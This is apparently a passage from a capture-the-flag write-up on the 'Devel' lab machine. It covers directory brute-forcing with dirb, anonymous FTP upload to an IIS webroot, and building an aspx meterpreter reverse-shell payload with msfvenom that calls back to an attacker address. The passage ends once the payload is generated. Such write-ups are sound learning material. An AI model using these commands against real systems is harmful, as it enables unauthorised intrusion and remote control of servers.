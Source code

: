 Which didn't give me much to go on. Then I ran dirb with the IIS wordlist, but didn't really expect much:
 
```
$ dirb http://devel /usr/share/wordlists/dirb/vulns/iis.txt -o devel-dirb-iis.txt
```
That also came up with nothing interesting so I gave up on the webserver and started focusing on FTP. Anonymous login was enabled and I could upload files to the root of the webserver so I suspected this was the way in. This is IIS 7.5 which is over a decade old so there's bound to be some vulnerabilities. Here's what it looked like after I logged in, you can see the files being served by the webserver:

```
$ ftp devel
Connected to devel.
220 Microsoft FTP Service
Name (devel:zxc): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

I uploaded a test.html file successfully and was able to view it via HTTP. 

## Building an ASPX payload to gain shell access

I did a little research and saw that I likely needed to build a payload to upload and then use it to launch a reverse shell. This isn't something I've done much with Metasploit in the past, and it's been a while since I'd played around with it so it took a little time to get right. It sounded like an asp payload might do the trick since this is IIS7.5.  I followed some documentation to use __msvenom__ to build the payload:

Searched for applicable payloads:
```
msfvenom -lp |grep windows/meterpreter
```

I also ran this command to view all of the possible file formats the tool supports:
```
msfvenom --list formats
```

The list is pretty long - I first went with asp, but then learned I'd need to use aspx after a failed attempt. I could have researched IIS7.5 a little more up front to have saved myself the trouble. I'll skip that here and just cut to building the aspx payload:

```
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.x.x LPORT=4444 -o payload.aspx -f aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of aspx file: 38572 bytes
Saved as: payload.aspx
```
